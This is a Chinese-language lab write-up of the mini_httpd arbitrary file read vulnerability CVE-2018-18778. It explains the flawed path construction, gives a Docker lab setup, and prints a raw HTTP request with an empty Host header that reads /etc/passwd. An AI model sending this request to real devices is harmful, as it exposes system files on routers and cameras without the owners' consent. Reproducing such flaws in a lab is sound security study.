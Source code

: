 # mini_httpd任意文件读取漏洞（CVE-2018-18778）

Mini_httpd是一个微型的Http服务器，在占用系统资源较小的情况下可以保持一定程度的性能（约为Apache的90%），因此广泛被各类IOT（路由器，交换器，摄像头等）作为嵌入式服务器。而包括华为，zyxel，海康威视，树莓派等在内的厂商的旗下设备都曾采用Mini_httpd组件。

在mini_httpd开启虚拟主机模式的情况下，用户请求`http://HOST/FILE`将会访问到当前目录下的`HOST/FILE`文件。

```c
(void) snprintf( vfile, sizeof(vfile), "%s/%s", req_hostname, f );
```

见上述代码，分析如下：

- 当HOST=`example.com`、FILE=`index.html`的时候，上述语句结果为`example.com/index.html`，文件正常读取。
- 当HOST为空、FILE=`etc/passwd`的时候，上述语句结果为`/etc/passwd`。

后者被作为绝对路径，于是读取到了`/etc/passwd`，造成任意文件读取漏洞。

## 环境搭建

执行如下命令启动mini_httpd 1.29：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到Web页面。

## 漏洞复现

发送请求是将Host置空，PATH的值是文件绝对路径：

```
GET /etc/passwd HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

成功读取文件：

![](1.png)
